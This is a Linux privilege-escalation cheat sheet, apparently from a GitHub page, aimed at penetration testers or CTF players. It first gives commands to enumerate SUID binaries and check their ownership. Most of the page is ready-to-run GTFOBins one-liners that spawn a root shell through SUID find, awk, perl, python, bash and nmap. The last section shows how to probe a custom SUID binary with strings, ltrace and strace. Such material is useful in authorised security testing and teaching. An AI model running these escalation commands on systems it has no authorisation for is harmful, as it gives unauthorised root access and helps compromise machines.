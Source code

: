 Quick triage helpers
```bash
# Sort by directory to spot odd locations (/usr/local, /opt, home)
find / -perm -4000 -type f 2>/dev/null | awk -F/ '{print "/"$2}' | sort | uniq -c | sort -nr

# Look for likely interesting names
find / -perm -4000 -type f 2>/dev/null | egrep -i 'find|awk|perl|python|vim|vi|nmap|less|more|tar|cp|bash'
```

Check ownership/bit
```bash
# Confirm SUID and owner
ls -l /path/to/suspect
stat -c '%A %U %G %a %n' /path/to/suspect
```

GTFOBins “quick wins” (works when those binaries are SUID root)

- find
```bash
# If /usr/bin/find has SUID root:
# Prefer bash -p if available; /bin/sh -p may not exist on dash-based systems.
find . -exec /bin/bash -p -c 'id; whoami' \; -quit
```

- awk
```bash
awk 'BEGIN { system("/bin/bash -p") }'
```

- perl
```bash
perl -e 'exec "/bin/bash","-p";'
```

- python
```bash
python -c 'import os,pty; os.setuid(0); os.system("/bin/bash")'
# Alternative with interactive TTY
python -c 'import os,pty; os.setuid(0); pty.spawn("/bin/bash")'
```

- bash
```bash
# If /bin/bash is SUID root:
bash -p
```

- nmap (older versions with interactive mode)
```bash
nmap --interactive
# At the nmap prompt:
!bash -p
```

Note: Not all GTFOBins work on every distro/version; some binaries sanitize or drop privileges.

Analyze a custom SUID binary
```bash
# 1) Static hints
strings /path/to/suid_binary | egrep -i 'system|popen|execl|execve|/bin/|/usr/bin/|sh|bash'

# 2) Runtime calls to system()/exec* (shows arguments)
ltrace -f -o /tmp/ltrace.log /path/to/suid_binary
grep -iE 'system|popen|execl|execve' /tmp/ltrace.log || tail -n +1 /tmp/ltrace.log | less

# 3) Observe executed processes/files
strace -f -e execve,open,openat,access -o /tmp/strace.log /path/to/suid_binary
grep -E 'execve\(|open(at)?\(' /tmp/strace.log | tail -n 50

```